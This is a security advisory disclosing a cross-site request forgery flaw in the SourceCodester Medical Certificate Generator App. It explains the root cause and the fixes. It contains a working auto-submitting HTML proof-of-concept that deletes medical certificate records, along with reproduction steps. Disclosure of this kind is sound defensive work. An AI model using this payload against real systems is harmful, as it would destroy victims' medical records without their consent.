


# Cross-Site Request Forgery (CSRF) – Arbitrary Medical Certificate Deletion

------

## Product Information

- **Product Name:** SourceCodester Medical Certificate Generator App
- **Vendor:** SourceCodester
- **Product URL:**
   https://www.sourcecodester.com/php/16105/medical-certificate-generator-app-using-php-and-mysql-free-download.html

------

## Vulnerability Summary

The SourceCodester **Medical Certificate Generator App** is vulnerable to **Cross-Site Request Forgery (CSRF)**, which allows an attacker to **arbitrarily delete medical certificate records** by tricking an authenticated user into submitting a crafted malicious request.

The affected endpoint handles **state-changing POST requests** without enforcing any **anti-CSRF protection mechanisms**, such as unique CSRF tokens, strict origin or referer validation, or SameSite cookie restrictions. As a result, the application relies solely on session cookies for request authorization, making it susceptible to CSRF attacks.

------

## Proof of Concept (CSRF Exploit)

An attacker can host the following malicious HTML page and trick a logged-in victim into visiting it.

```
<html>
  <body>
    <form action="http://192.168.136.1:8080/med/action.php?action=delete_record" method="POST">
      <input type="hidden" name="id" value="4" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

------

## Steps to Reproduce

1. Log in to the application as a valid user

2. Keep the session active

3. Open the CSRF PoC HTML file in a browser

4. Click Submit request

   

5. The medical certificate record with the specified ID is deleted

   

------

## Impact

- Arbitrary deletion of medical certificates
- Loss of sensitive medical records
- Integrity violation of application data
- Potential abuse through phishing or malicious links

------

## Root Cause

- Absence of anti-CSRF tokens
- Lack of server-side CSRF validation
- Reliance solely on session cookies for authorization
- No SameSite cookie enforcement

------

## Recommended Mitigation

- Implement **CSRF tokens** for all state-changing requests
- Validate CSRF tokens server-side
- Enforce strict origin and referer validation

------

## Discovered By

**Mo Asim** (also known as **Asim Qazi**)
 Student | Security Researcher

- GitHub: https://github.com/Asim-Qazi
- LinkedIn: https://www.linkedin.com/in/masimqazi
